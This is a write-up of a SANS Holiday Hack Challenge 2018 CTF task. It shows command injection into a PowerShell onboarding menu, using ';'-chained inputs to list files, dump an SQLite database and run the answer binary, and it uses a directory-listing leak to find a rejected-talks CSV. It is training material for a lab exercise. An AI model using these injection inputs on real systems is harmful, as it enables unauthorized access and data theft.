

# SANS HOLIDAY HACK CHALLENGE - 2018 - QUESTION 2

```
https://holidayhackchallenge.com/2018/story.html
```

### DESCRIPTION

Who submitted (First Last) the rejected talk titled Data Loss for Rainbow Teams: A Path in the Darkness? Please analyze the CFP site to find out. For hints on achieving this objective, please visit Minty Candycane and help her with the The Name Game Cranberry Pi terminal challenge.

### CRANBERRY PI CHALLENGE


```
<Mindy>

Hi, I'm Minty Candycane.

Can you help me? I'm in a bit of a fix.

I need to make a nametag for an employee, but I can't remember his first name.

Maybe you can figure it out using this Cranberry Pi terminal?

The Santa's Castle Onboarding System? I think it's written in PowerShell, if I'm not mistaken.

PowerShell itself can be tricky when handling user input. Special characters such as & and ; can be used to inject commands.

I think that system is one of Alabaster's creations.

He's a little ... obsessed with SQLite database storage.

I don't know much about SQLite, just the .dump command.

</Mindy>
```

##### THE NAME GAME

```
We just hired this new worker,
Californian or New Yorker?
Think he's making some new toy bag...
My job is to make his name tag.
Golly gee, I'm glad that you came,
I recall naught but his last name!
Use our system or your own plan,
Find the first name of our guy "Chan!"
-Bushy Evergreen
To solve this challenge, determine the new worker's first name and submit to runtoanswer.
====================================================================
=                                                                  =
= S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
=                                                                  =
====================================================================
 Press  1 to start the onboard process.
 Press  2 to verify the system.
 Press  q to quit.
Please make a selection: 
```

###### ELF HINT

```
https://ss64.com/ps/call.html

Power Shell Basics
The call operator (&) allows you to execute a command, script or function.

Many times you can execute a command by just typing its name, but this will only run if the command is in the environment path. Also if the command (or the path) contains a space then this will fail. Surrounding a command with quotes will make PowerShell treat it as a string, so in addition to quotes, use the & call operator to force PowerShell to treat the string as a command to be executed.

Syntax
      & "[path] command" [arguments]
```

```
https://www.digitalocean.com/community/questions/how-do-i-dump-an-sqlite-database

How do I dump an SQLite database?

$ sqlite3 dbname.db .dump > dbname.bak
```

###### CRANBERRY PI ENUMERATION

Selecting `2 to verify the system` and giving a random IP address, we see the
system leaks a bit of information about the name of the underlying database (SQLite, version 3.x, db name is onboard.db)

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4
connect: Network is unreachable
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

Using the `;`, we find that we can inject commands into the system as well and
we discover the database sits as `/home/elf/onboard.db`.

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; pwd; ls
connect: Network is unreachable
/home/elf
menu.ps1  onboard.db  runtoanswer
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

With this knowledge, we can use the database dump hint we got to dump the
`onboard.db` to get the name of the elf is.. "Scott".

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; sqlite3 onboard.db .dump | grep Chan
connect: Network is unreachable
INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067',
'4017533509','scottmchan90067@gmail.com');
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

While enumerating, we also saw there was a file called `runtoanswer` in the home
directory.. let's see if that is how we submit the answer?

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; runtoanswer
connect: Network is unreachable
Loading, please wait......
Enter Mr. Chan's first name: Scott

                                                                               
    .;looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooool:'    
  'ooooooooooookOOooooxOOdodOOOOOOOdoxOOdoooooOOkoooooooxO000Okdooooooooooooo;  
 'oooooooooooooXMWooooOMMxodMMNKKKKxoOMMxoooooWMXoooookNMWK0KNMWOooooooooooooo; 
 :oooooooooooooXMWooooOMMxodMM0ooooooOMMxoooooWMXooooxMMKoooooKMMkooooooooooooo 
 coooooooooooooXMMMMMMMMMxodMMWWWW0ooOMMxoooooWMXooooOMMkoooookMM0ooooooooooooo 
 coooooooooooooXMWdddd0MMxodMM0ddddooOMMxoooooWMXooooOMMOoooooOMMkooooooooooooo 
 coooooooooooooXMWooooOMMxodMMKxxxxdoOMMOkkkxoWMXkkkkdXMW0xxk0MMKoooooooooooooo 
 cooooooooooooo0NXooookNNdodXNNNNNNkokNNNNNNOoKNNNNNXookKNNWNXKxooooooooooooooo 
 cooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo 
 cooooooooooooooooooooooooooooooooooMYcNAMEcISooooooooooooooooooooooooooooooooo
 cddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddo 
 OMMMMMMMMMMMMMMMNXXWMMMMMMMNXXWMMMMMMWXKXWMMMMWWWWWWWWWMWWWWWWWWWMMMMMMMMMMMMW 
 OMMMMMMMMMMMMW:  .. ;MMMk'     .NMX:.  .  .lWO         d         xMMMMMMMMMMMW 
 OMMMMMMMMMMMMo  OMMWXMMl  lNMMNxWK  ,XMMMO  .MMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMX.  .cOWMN  'MMMMMMM;  WMMMMMc  KMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMMMKo,   KN  ,MMMMMMM,  WMMMMMc  KMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMKNMMMO  oM,  dWMMWOWk  cWMMMO  ,MMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMc ...  cWMWl.  .. .NMk.  ..  .oMMMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 xXXXXXXXXXXXXXKOxk0XXXXXXX0kkkKXXXXXKOkxkKXXXXXXXKOKXXXXXXXKO0XXXXXXXXXXXXXXXK 
 .oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo, 
  .looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo,  
    .,cllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllc;.    
                                                                                
Congratulations!
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

```
<Mindy>

Thank you so much for your help! I've gotten Mr. Chan his name tag. I'd love to repay the favor.

Have you ever visited a website and seen a listing of files - like you're browsing a directory? Sometimes this is enabled on web servers.

This is generally unwanted behavior. You can find sleighloads of examples by searching the web for index.of.

On a website, it's sometimes as simple as removing characters from the end of a URL.

What a silly misconfiguration for leaking information!

</Mindy>
```

### SOLUTION

The hint directs us to "Please analyze the CFP site to find out."

```
https://cfp.kringlecastle.com/index.html
```


Using the hint from the elf regarding getting "listing of files" we find the
following `https://cfp.kringlecastle.com/cfp/rejected-talks.csv`..

```
$ grep "Data Loss for Rainbow Teams" rejected-talks.csv
qmt3,2,8040424,200,FALSE,FALSE,John,McClane,Director of Security,Data Loss for Rainbow Teams: A Path in the Darkness,1,11
```


